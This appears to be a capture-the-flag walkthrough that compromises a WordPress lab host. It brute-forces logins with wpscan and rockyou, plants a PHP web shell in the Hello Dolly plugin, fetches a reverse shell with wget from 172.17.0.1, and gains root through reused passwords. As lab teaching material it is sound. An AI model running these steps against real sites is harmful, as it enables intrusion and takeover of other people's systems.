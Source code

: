 # Ports Open
80
# Vulnerabilties
* weak passwords
* unencrypted passwords in database
* password reuse
# Initial Access
* the web app landing page makes reference to a domain `pressenter.hl`, so we add that entry to hour `/etc/hosts` file
* turns out this is a wordpress app, so we hit it with wpscan
```
wpscan --url http://pressenter.hl/ --enumerate vp,u,vt --verbose
```
* We identify a couple of users, so we can try brute forcing their passwords
```
wpscan --url http://pressenter.hl/ --enumerate vp,u,vt --verbose --passwords /usr/share/wordlists/rockyou.txt
```
* We have credentials now, so we can login to the wordpress app at `/wp-login.php`
* We can change the language in the settings page `http://pressenter.hl/wp-admin/options-general.php`
* There's some setting preventing us from modifying theme page code, so we'll need to modify plugin code. First we activate the hello dolly plugin from the following page:
```
http://pressenter.hl/wp-admin/plugins.php
```
* Then we edit the file at the following link:
```
http://pressenter.hl/wp-admin/plugin-editor.php
```
* We can leave this code snippet in the hello.php file:
```
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
```
* Then access the file at this endpoint `http://pressenter.hl/wp-content/plugins/hello.php`
* We can upload a reverse shell with wget
* `cmd=wget http://172.17.0.1/php-reverse-shell.php`
* Then access the following endpoint `http://pressenter.hl/wp-content/plugins/php-reverse-shell.php`
# Privilege Escalation
* there are database credentials in the `wp-config.php` file
```
mysql wordpress -u admin -p # password is rooteable
show tables;
select * from wp_usernames;
```
* this reveals credentials for the `enter` user
* but the `root` account actually uses the same password...
# Takeaways
* always check for password reuse
* keep a list of usernames and passwords, and try every combination

